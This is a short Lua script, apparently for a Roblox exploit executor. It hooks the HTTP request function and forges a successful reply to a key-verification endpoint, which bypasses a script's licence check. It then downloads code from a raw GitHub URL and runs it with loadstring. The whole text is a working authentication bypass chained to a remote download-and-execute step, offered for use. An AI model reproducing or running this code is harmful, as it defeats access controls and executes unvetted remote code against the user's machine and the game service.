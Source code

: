 local rekeste = http and http.request or syn and syn.request or request

hookfunction(rekeste, function(args)
    if args.Url:find("scriptsbinsauth.vercel.app/api/verify%-key") then


        return {
            StatusCode = 200,
            Success = true,
            StatusMessage = "OK",
            Body = game:GetService("HttpService"):JSONEncode({
                valid = true,
                message = "Polengo 🥵"
            }),
            Headers = {}
        }
    end

    return rekeste(args)
end)


task.wait(1)

loadstring(game:HttpGet("https://raw.githubusercontent.com/dadad213/sintoniafudido1/refs/heads/main/main"))()
